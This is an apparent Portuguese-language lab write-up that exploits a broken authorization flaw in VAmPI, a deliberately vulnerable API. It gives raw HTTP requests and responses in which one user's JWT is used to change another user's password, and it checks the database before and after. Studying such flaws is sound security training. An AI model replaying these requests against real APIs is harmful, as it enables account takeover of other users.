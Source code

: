 ```yaml
---
sidebar_position: 2
---
```


# Exploração

Tendo em mente os questionamentos levantados ao final da sessão anterior, é possível realizar os testes de segurança a fim de descobrir onde a vulnerabilidade pode ser explorada.

## Autenticação na aplicação
Para que um usuário altere sua senha, é necessário que o mesmo se autentique na aplicação, para isso basta utilizar a rota `/users/v1/login` usando uma requisição do tipo `POST` enviando as informações de login no body da requisição.

```python title="Request de login na aplicação"
POST /users/v1/login HTTP/1.1
Content-Type: application/json
User-Agent: PostmanRuntime/7.29.2
Accept: */*
Postman-Token: 8fda313b-89ef-4bd5-a63a-fd5061565533
Host: localhost:5000
Accept-Encoding: gzip, deflate
Connection: close
Content-Length: 56

{
    "username": "jordan",
    "password": "password"
}
```
Na response, um token JWT é enviado, é através dele que a autenticação será realizada em todas as requisições futuras.

```python title="Response de login na aplicação"
HTTP/1.0 200 OK
Content-Type: application/json
Content-Length: 225
Server: Werkzeug/1.0.1 Python/3.8.10
Date: Sun, 02 Oct 2022 02:44:46 GMT

{
    "auth_token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.
    eyJleHAiOjE2NjQ3Mzg2ODYsImlhdCI6MTY2NDY3ODY4Niwic3ViIjoiam9yZGFuIn0.
    VrScPrN9cR0LMy7v7_YuGC0Yo3WR2KoCtoQZU4yAN3U",
    "message": "Successfully logged in.",
    "status": "success"}
```

## Alteração de senha usando a rota `/users/v1/{username}/password`
Antes de realizar a alteração de senha, será feita uma checagem no banco de dados qual é a senha utilizada pelo usuário **jordan**.

```json title="Dados do jordan antes da alteração da senha"
    {
        "admin": false,
        "email": "jjga.snf19@uea.edu.br",
        "password": "password",
        "username": "jordan"
    }
```
A senha que o **jordan** utiliza antes da alteração é *password*.

Agora com o usuário logado na aplicação, foi enviado através do PostMan a requisição do tipo `PUT` legítima na rota usada para alteração de senha, sendo interceptada pelo Burp para análise posterior.

```python title="Request legítima de alteração de senha"
PUT /users/v1/jordan/password HTTP/1.1
Content-Type: application/json
Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.
eyJleHAiOjE2NjQ3Mzg2ODYsImlhdCI6MTY2NDY3ODY4Niwic3ViIjoiam9yZGFuIn0.
VrScPrN9cR0LMy7v7_YuGC0Yo3WR2KoCtoQZU4yAN3U
User-Agent: PostmanRuntime/7.29.2
Accept: */*
Postman-Token: 653000d0-74dc-4293-a8bc-1f6a9dad3b1f
Host: localhost:5000
Accept-Encoding: gzip, deflate
Connection: close
Content-Length: 33

{
    "password": "newpassword"
}
```

A resposta recebida foi uma confirmação de que a alteração foi realizada com sucesso.

```json
HTTP/1.0 204 NO CONTENT
Content-Type: application/json
Server: Werkzeug/1.0.1 Python/3.8.10
Date: Sun, 02 Oct 2022 02:58:00 GMT
```
E, por fim, checando no banco de dados para confirmar que a alteração foi replicada para o usuário.

```json title="Dados do jordan após a alteração da senha"
   {
      "admin": false, 
      "email": "jjga.snf19@uea.edu.br", 
      "password": "newpassword", 
      "username": "jordan"
    }
```

## Vulnerabilidade na rota `/users/v1/{username}/password`
Para identificar a vulnerabilidade, as perguntas apresentadas pelo tópico anterior são o suficiente. Mas, uma delas é a mais interessante para esse momento.
- *Funções disponíveis para um grupo de usuários podem ser utilizadas por outro grupo (sendo necessário descobrir apenas o endpoint da API)?*

Tendo essa pergunta em mente, é hora de checar se um usuário poderia alterar a senha de outro usuário. Caso o token JWT não seja usado para confirmar a identidade do usuário, será possível alterar senhas de outros usuários.

No banco de dados existe um usuário chamado `name1`, que será a vítima do teste de alteração de senha.

```json title="Dados da vítima antes do ataque"
    {
      "admin": false, 
      "email": "mail1@mail.com", 
      "password": "pass1", 
      "username": "name1"
    }
```
Usando o Burp, será feita uma nova requisição utilizando o token JWT do **jordan**, porém, com o nome de usuário do **name1** com a nova senha **"hackeado!"**.

```python title="Request maliciosa usando o Burp"
PUT /users/v1/name1/password HTTP/1.1
Content-Type: application/json
Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.
eyJleHAiOjE2NjQ3Mzg2ODYsImlhdCI6MTY2NDY3ODY4Niwic3ViIjoiam9yZGFuIn0.
VrScPrN9cR0LMy7v7_YuGC0Yo3WR2KoCtoQZU4yAN3U
User-Agent: PostmanRuntime/7.29.2
Accept: */*
Postman-Token: 653000d0-74dc-4293-a8bc-1f6a9dad3b1f
Host: localhost:5000
Accept-Encoding: gzip, deflate
Connection: close
Content-Length: 31

{
    "password": "hackeado!"
}
```

A resposta do VAmPI indica que a senha foi alterada com sucesso.

```python title="Response maliciosa"
HTTP/1.0 204 NO CONTENT
Content-Type: application/json
Server: Werkzeug/1.0.1 Python/3.8.10
Date: Sun, 02 Oct 2022 03:36:27 GMT
```
Para confirmar, será feita a checagem das informações do usuário **name1** no banco de dados da aplicação.

```json title="Dados da vítima após o ataque"
    {
      "admin": false, 
      "email": "mail1@mail.com", 
      "password": "hackeado!", 
      "username": "name1"
    }
```

Isso demonstra que a aplicação está vulnerável e que, provavelmente, está utilizando apenas o nome de usuário como forma de prova de identidade.

O JWT está sendo subutilizado, sendo exclusivamente uma forma de garantir que somente usuários logados na aplicação façam a alteração da senha.

#### Mais referências disponíveis na [OWASP](https://github.com/OWASP/API-Security/blob/master/2019/en/src/0xa8-injection.md).